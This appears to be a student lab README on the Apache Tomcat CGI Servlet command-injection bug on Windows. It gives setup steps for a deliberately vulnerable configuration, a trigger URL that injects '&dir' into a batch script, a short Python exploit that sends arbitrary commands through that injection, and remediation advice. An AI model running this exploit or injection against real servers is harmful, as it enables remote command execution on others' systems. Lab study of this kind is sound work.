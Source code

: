 # PS
- Bug Overview: Apache Tomcat has a vulnerability in the CGI Servlet which can be exploited to achieve remote code execution (RCE). This is only exploitable when running on Windows in a non-default configuration in conjunction with batch files.
- Aim: Write a working exploit by which you can achieve RCE on the local VM.
- Install vulnerable service in a VM and ensure to meet the condition so that you can exploit it.
- Run your exploit on the vulnerable service and make a video of it.
- Write a brief report about this bug including your exploit code and link for exploit and Video proof.

# Environment Setup:
1. Install a Java Runtime Environment (JRE) in Windows.
1. Download a vulnerable version of Tomcat and extract.
1. Modify the `conf\context.xml` file on line 19, to enable privileged context:

	``` html
	<Context privileged="true">
	```	
1. Modify `conf\web.xml` to enable the CGI Servlet by removing the comments around line 387 as follows and adding the following parameters: 

	``` html

	<servlet><servlet-name>cgi</servlet-name>
	<servlet-class>org.apache.catalina.servlets.CGIServlet</servlet-class>
	<init-param>
	  <param-name>cgiPathPrefix</param-name>
	  <param-value>WEB-INF/cgi</param-value>
	</init-param>
	<init-param>
	  <param-name>executable</param-name>
	  <param-value></param-value>
	</init-param>
	<init-param>
	  <param-name>enableCmdLineArguments</param-name>
	  <param-value>true</param-value>
	</init-param>
	<load-on-startup>5</load-on-startup>
	</servlet>
	```

1.	Enable the CGI servlet by removing comments around this – you also need to change the URL pattern to match the one in the previous step (`cgi`):
	``` html
	<servlet-mapping>
	<servlet-name>cgi</servlet-name>
	<url-pattern>/cgi/*</url-pattern>
	</servlet-mapping>
	```

1.	Create a folder for the CGI files:
 	`mkdir webapps\ROOT\WEB-INF\cgi`
1.	Create any non empty bat file with valid commands.
1.	Run Tomcat via the following command:

	``` sh
        cd bin
	catalina run
        ```
1.	Trigger the following URLs and observe the dir command being run:	http://localhost:8080/cgi/test.bat?&dir
Or run the attached exploit code.
  
# Exploit Code:

```python3

	import requests as re
	base_url = raw_input("Enter url of the .bat cgi script: ")
	while(True):
		command = raw_input("Enter the command: ")
		command = '&echo off'+'&echo.'+'&'+command
		r = re.get(base_url, params=command.replace(" ","+"))
		print(r.text)
```
  
# Remediation:
1.	Set `enableCmdLineArguements` to `False`.
1.	If above option is required then add additional parameter `cmdLineArgumentsDecoded` for proper input validation. 
